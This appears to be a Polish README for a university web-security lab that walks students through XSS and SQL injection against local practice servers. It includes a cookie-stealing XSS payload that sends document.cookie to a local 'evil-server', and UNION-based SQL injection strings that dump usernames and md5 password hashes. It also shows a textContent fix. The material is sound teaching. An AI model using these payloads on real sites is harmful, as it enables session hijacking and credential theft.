 # BAIiM_project
Command Injection, Code Injection i Cross-Site Scripting

## Wymagania
* Git (git clone)
* Node.js
* Python 3.10 (lub nowszy)
* Docker
* Docker-compose

## Wstęp
* Sklonuj repozytorium (git clone)
* Zainstaluj pakiety Node.js zdefiniowane w `package.json` z pomocą poniższej komendy:
```
npm install
```

## Zadanie 1

* Uruchom lokalny serwer WWW za pomocą Node.js:
```
node server.js
```

To spowoduje pojawienie się komunikatu: `Serwer nasłuchuje na porcie 3000`. 
W wyszukiwarce wpisz link `http://localhost:3000/`.
* Możesz wpisać dowolną rzecz w pole tekstowe, a następnie kliknąć `Szukaj`. Sprawdź jak zachowuje się to zapytanie i czy wygląda na podatne na atak.
* Przy użyciu klawisza F12 otwórz "Developer Tools" i wklej poniższy kod do konsoli:
```
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'BAIiM\')">');
```
* Następnie skopiuj wynik i wklej go do paska URL, tak aby wyglądał w następujący sposób: `http://localhost:3000/?val=<wynik>`

* W "Developer Tools" otwórz zakładkę "Application". A następnie "Storage" -> "Cookies", kliknij "localhost:3000", aby wyświetlić pliki cookies zapisane dla tej strony.

* Znajdujemy tam ciasteczko o nazwie "connect.sid". Spróbuj zyskać do niego dostęp poprzez wklejenie poniższego kodu do pola tekstowego - musisz najpierw powtórzyć krok z `encodeURIComponent` na poniższym kodzie (jako wynik powinniśmy zobaczyć zawartość w wyskakującym okienku):
 ```
<img src="does-not-exist" onerror="alert(document.cookie)">
```
* teraz uruchom kolejny serwer (w osobnym terminalu):
```
node evil-server.js
```

* teraz spróbujesz wykraść plik cookie. Wklej poniższy kod do pola tekstowego (tak jak poprzednio użyj `encodeURIComponent`)

```
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
* zobacz wynik w terminalu, w którym uruchomiony został `evil-server.js`
* zastanów się dlaczego to, co wykonałeś powyżej może być groźne

### Zabezpieczenie
* W pliku `public/index.html` znajdź funkcję "showQueryAndResults". Pobiera ona wartość zapytania `val` i wpisuje do `<div id="results"></div>`
* Możemy zmienić ją tak, aby `val` trakowane było jako tekst. W tym celu dodaj poniższy kod na końcu funkcji "showQueryAndResults".
```
var queryTextEl = document.querySelector('#results pre');
	queryTextEl.textContent = val;
```
* zastanów się, jaki ma to wpływ

## Zadanie 2
W tym zadaniu dokonasz podstawowego ataku SQL Injection, który pozwoli Ci na dostęp do konta administratora w serwisie internetowym. Do jego wykonania wymagane jest użycie języka Python.

* W celu uruchomienia serwera przejdź do katalogu Zadanie-2
* Uruchom serwer atakowanej witryny internetowej poprzez wykonanie polecenia `python main.py`
* Przejdź do serwisu sklepu dostępnego pod adresem: http://localhost:5000
* (Opcjonalnie) zapoznaj się z zawartością tabeli dostępnych produktów - obraz "Produkty.png"

Poniżej znajduje się instrukcja dotycząca używania poleceń SQL dla ataków typu injection w bazie danych SQLite (screen tabeli dostępnych produktów znajduje się w folderze Zadanie-2):
* Sprawdź, czy atak injection może zadziałać, wpisując następujące polecenie (`sqlite_master` to domyślna tabela w bazie danych SQLite, która przechowuje informacje o każdej tabeli w bazie danych):
```
woda' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --
```
* Uzyskaj nazwy tabel z tabeli głównej (polecenie SQL zwraca informacje o tabeli):
```
woda' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --
```
`name` i `sql` to kolumny w tabeli `sqlite_master`. `name` zwraca nazwę tabeli, a `sql` zwraca informacje SQL dotyczące tabeli (np. kolumny).
* Uzyskaj informacje z dwóch kolumn i utwórz trzecią kolumnę:
```
woda' UNION SELECT username,password,3 from employees;--
 ```
* Zwróć uwagę, że w kolumnie `password` pojawia się ciąg znaków. Zastanów się co możesz z nim zrobić. (podpowiedź: md5).

Przeanalizuj powyższe polecenia i zastanów się skąd wynikają poszczególne ich elementy.

Dlaczego atak nie powiedzie się podając tylko złośliwe zapytanie SQL?

## Zadanie 3
Twoim ostatnim zadaniem jest samodzielne dokonanie serii ataków XSS. Wyzwanie składa się z 6 poziomów, w ramach których należy ominąć zaimplementowane zabezpieczenia.


W celu uruchomienia serwera wykonaj poniższe kroki:
* Zainstaluj program [docker](https://docs.docker.com/get-docker/) oraz [docker-compose](https://docs.docker.com/compose/install/).
* Przejdź do katalogu Zadanie-3 (folder zawierający plik docker-compose.yml)
* Wykonaj polecenie `sudo docker-compose up`
* Przejdź do wyzwań dostępnych pod adresem: http://localhost:9003


Jeśli podczas wykonywania polecenia `docker-compose up` napotkasz problemy upewnij się, że usługa docker'a została uruchomiona. W przeciwnym wypadku wykonaj polecenie `sudo systemctl start docker`.

Jeżeli problem nadal występuje, należy całkowicie zresetować pracę usługi poprzez polecenie `sudo systemctl restart docker`.


## Bibliografia
* "Bezpieczeństwo aplikacji webowych" - Michał Bentkowski, Gynvael Coldwind, Artur Czyż, Rafał Janicki, Jarosław Kamiński, Adrian Michalczyk, Mateusz Niezabitowski, Marcin Piosek, Michał Sajdak, Grzegorz Trawiński, Bohdan Widła
* https://crashtest-security.com/different-injection-attack-types/​
* https://learn.snyk.io/lessons/​
* https://www.imperva.com/learn/application-security/command-injection/​
* https://owasp.org/www-community/attacks/Command_Injection​
* https://crashtest-security.com/command-injection/​
* https://crashtest-security.com/code-injection/​
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html​
* https://www.acunetix.com/websitesecurity/cross-site-scripting/ 
* https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/
* https://github.com/inforkgodara/xss-vulnerability 
* https://github.com/neophyt3/sql-injection-exercises

  ### Dodatkowe
  #### Gry XSS i zadania:
  * http://sudo.co.il/xss/
  * https://xss-game.appspot.com/ 
  * https://alf.nu/alert1?world=alert&level=alert0 
  * http://prompt.ml/0 
  * https://xss-quiz.int21h.jp/
  * https://domgo.at/cxss/example

  #### Animacja o XSS wraz z wyjaśnieniem
  * https://www.hacksplaining.com/exercises/xss-stored (animacja)
  * https://www.hacksplaining.com/prevention/xss-stored (wyjaśnienie)
